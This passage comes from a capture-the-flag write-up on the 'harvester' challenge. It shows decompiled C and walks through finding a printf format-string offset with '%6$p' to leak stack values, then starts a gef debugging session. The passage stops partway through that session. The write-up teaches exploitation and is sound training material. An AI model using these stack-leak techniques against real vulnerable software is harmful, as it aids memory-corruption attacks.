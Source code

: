 ```c
  printf("\x1b[1;31m");
  printstr("\nYou are not strong enough to fight yet.\n");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

`fight` reads in 5 bytes, then `printf`s your input with no format string.  5 bytes is not enough to launch a full-scale attack, but is enough to leak the stack.  But before we look at the stack we need to determine the `printf` offset.

Start at `%1$p` and keep incrementing until output matches input, e.g.:

```
# ./harvester_no_usleep

A wild Harvester appeared 🐦

Options:

[1] Fight 👊	[2] Inventory 🎒
[3] Stare 👀	[4] Run 🏃
> 1

Choose weapon:

[1] 🗡		[2] 💣
[3] 🏹		[4] 🔫
> %6$p

Your choice is: 0xa70243625
```

That output is little-endian hex for `%6$p`.  Looks like a match.

Next we need to look at the stack for useful leaks, this time set a breakpoint at `*fight+142`:

```
# gef harvester_no_usleep
gef➤  b *fight+142
Breakpoint 1 at 0xbbe
gef➤  run
Starting program: /pwd/datajerk/cyberapocalypsectf2021/harvester/harvester_no_usleep

A wild Harvester appeared 🐦

Options:

[1] Fight 👊	[2] Inventory 🎒
[3] Stare 👀	[4] Run 🏃
> 1

Choose weapon:

[1] 🗡		[2] 💣
[3] 🏹		[4] 🔫
> %6$p
```
